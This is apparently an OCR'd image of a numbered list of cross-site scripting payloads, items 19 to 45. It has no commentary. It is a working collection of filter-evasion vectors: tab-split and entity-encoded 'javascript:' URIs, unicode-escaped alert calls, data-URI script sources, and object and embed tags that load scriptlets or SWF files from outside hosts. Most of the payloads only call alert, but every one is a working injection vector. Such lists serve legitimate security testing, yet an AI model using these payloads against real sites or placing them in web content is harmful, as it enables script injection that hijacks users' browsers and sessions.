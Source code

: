 19) <svg><script ?>alert(1)
 
20) <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
 
21) <img src=`xx:xx`onerror=alert(1)>
 
22) <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
 
23) <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>​
 
24) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
25) <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>​
 
26) <svg contentScriptType=text/vbs><script>MsgBox+1
 
27) <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
 
28) <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
 
29) <script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
 
30) <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
 
31) <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script​​​​​​​​​​​​
 
32) <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
 
33) <script>+-+-1-+-+alert(1)</script>
 
34) <body/onload=&lt;!--&gt;&#10alert(1)>
 
35) <script itworksinallbrowsers>/*<script* */alert(1)</script ​
 
36) <img src ?itworksonchrome?\/onerror = alert(1)​​​
 
37) <svg><script>//&NewLine;confirm(1);</script </svg>
 
38) <svg><script onlypossibleinopera:-)> alert(1)
 
39) <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
 
40) <script x> alert(1) </script 1=2
 
41) <div/onmouseover='alert(1)'> style="x:">
 
42)  <--`<img/src=` onerror=alert(1)> --!>
 
43) <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>​
 
44) <div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>​
 
45) "><img src=x onerror=window.open('https://www.google.com/');>
 